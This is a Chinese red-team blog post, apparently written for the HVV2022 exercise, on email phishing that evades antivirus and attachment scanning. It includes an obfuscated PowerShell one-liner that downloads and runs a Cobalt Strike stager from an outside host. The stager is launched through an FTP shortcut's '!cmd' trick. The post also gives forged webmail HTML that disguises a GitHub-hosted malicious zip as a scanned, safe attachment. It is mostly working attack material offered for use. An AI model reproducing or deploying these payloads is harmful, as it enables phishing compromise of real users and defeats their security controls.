

# 奇安信攻防社区 -【HVV2022】邮件钓鱼 bypass 附件检测&&杀软一把梭

### 【HVV2022】邮件钓鱼 bypass 附件检测&&杀软一把梭

某护也快开始了，希望能够提供一些借鉴意义

# 0x01 前言

先申明利益相关方，本文章仅为思路分享，品牌关键处会打码处理，不过确实挺有意思的，某护也快开始了，希望能够提供一些借鉴意义。

# 0x02 ByPass AV

将恶意文件，上传到 github 项目

```php
https://github.com/punch0day/cs_test
```


有经验的师傅，一眼就可以看出，这是 Link 钓鱼

但是某压缩包是检测为安全的


VirusTotal 全球 57 家厂商，只有 1 家能够检测出来，过国内所有杀软不在话下，篇幅原因，powershell 混淆技巧不细讲，师傅们可以先关注我，留作下次分享

**源码如下：**

```php
aaa.dll
#ftp 快捷方式运行时，会加载此 dll
!cmd /c po^we^rs^he^ll -ex^ec b^yp^ass .\\bbb.ps1
```

```php
bbb.ps1
#cs 上线
powershell.exe -nOp -w hIdDEn -c $ExeCuTiOnCoNtExT.InvOkeCoMmAnD.NeWScriPtBlOcK("IE##X ((nE##w-ObJe##ct ('nE##T.wEB##cLiEnT')).('doWnl##OadStRiNg').inVo##KE('ht'+'tp:/'+'/19'+'2.16'+'8.20'+'6.1'+'32:8'+'0/a'))".Replace("##",""))
```

（ps：可过所有静态查杀，动态的查杀看情况，像 360 杀毒（非卫士），win defender 可过，国内某些杀软一调用 powershell 进程就报可疑）


快捷方式改为以上这样就行了，原理上是利用了 ftp 命令模式下，输入！会命令执行，**这个是其他师傅的方法，非原创，但是 bypass 是自己做的**


只要一打开快捷键，立马 cs 上线


```php
参考文献：
【2022HVV系列】|9\-红蓝对抗之钓鱼篇：常见钓鱼思路总结
https://www.77169.net/html/291698.html
PowerShell攻击的混淆方法总结
http://www.mchz.com.cn/cn/service/Safety-Lab/info_26_itemid_3320.html
```

# 0x03 ByPass 邮箱附件检测

上传到 github 上后，选择将 code 下载为 zip 格式，下载到本地后，找到游览器的历史下载记录，并复制下载链接

```php
https://codeload.github.com/punch0day/cs_test/zip/refs/heads/main
```

打开某邮箱，找到一个带有附件的邮件



复制附件的 html 代码


发送邮件，进行测试，选择“格式”插入 html，粘贴 html 代码


找到“下载”的<a>标签 进行修改 改为<a href=”刚才 github 的下载链接”>

**整个 payload 如下：**

```php
<div id="qm_con_body"><div id="mailContentContainer" class="qmbox qm_con_body_content qqmail_webmail_only" style="opacity: 1;"><div id="attachment" a="" b="false" style="padding:2px;" class="attbg" ui-type="attCon"><div style="padding:6px 10px 10px 8px;" class="txt_left"><div style="height:14px;">            <b style="font-size:14px;">附件</b>(<span id="attachmentCount">1</span> 个)</div></div><div style="padding:0 8px 6px 12px;background:#fff;_height:60px;line-height:140%;"><div class="graytext clear" style="padding-top:12px; padding-bottom:5px"><span style="color:#000;font-weight:bold;font-size:12px;">普通附件</span>                <span id="span_ZL0012_1yrN1r~M_twu3KkAAIjVLc5_safe"> (<span class="ico_Avira"></span>已通过电脑管家云查杀引擎扫描)</span>                        </div><div class="att_bt attachitem"><div class="ico_big"><a id="AttachIconAZL0012_1yrN1r~M_twu3KkAAIjVLc50" attach="1" attid="请重点关注.docx" viewmode="doc" url="/cgi-bin/viewdocument?sid=lGnwl-6PmrgMcwZk&amp;filename=1.docx&amp;mailid=1&amp;retry=true&amp;t=attachments_content&amp;ef=qfunc&amp;s=yozo&amp;fromattach=1" ck="previewAttach2" idx="0" filename="请重点关注.docx" down="/cgi-bin/download?mailid=1&amp;filename=1.doc" iconurl="/zh_CN/htmledition/images/xdisk/ico_mid/fu_doc.gif" filebyte="15360" sparse2onlinedocurl=""></a></div><div class="name_big">            <span player="/cgi-bin/download?mailid=1&amp;filename=1.docx&amp;sid=1">请重点关注.docx</span><span class="graytext">&nbsp;(15K<span id="span_attachIndex_ZL0012_1yrN1r~M_twu3KkAAIjVLc5_cd690305b12fa8de1acdd0ee2fc76181" style="display:none">, <span style="color: #C00;">附件包含病毒，请勿下载打开 </span></span>)</span><div class="down_big"><a ck="previewAttach" select="1" sparse2onlinedocurl="" down="/cgi-bin/download?mailid=1&amp;filename=1.docx&amp;sid=1">预览</a>&nbsp; <a href="https://codeload.github.com/punch0day/cs_test/zip/refs/heads/main">下载</a>&nbsp;&nbsp; <a style="" flag="0" class="needSetFlag" attachkey="1|1.docx|1.docx|15360"><span>收藏</span></a><span style="display:none;" class="graytext"><span>已收藏， </span><a>查看</a></span>&nbsp;&nbsp; <a ui-type="netdiskBind" attid="1|1|1" class="netdisk_hide"><span>转存</span><span class="bind_down_icon"></span></a></div></div></div></div></div></div></div>
```


**亲测可行，不管是企业邮箱，个人邮箱，桌面端，移动端，全部都是本地直接下载，附件不会经过邮箱的任何安全检测，直接 bypass！**
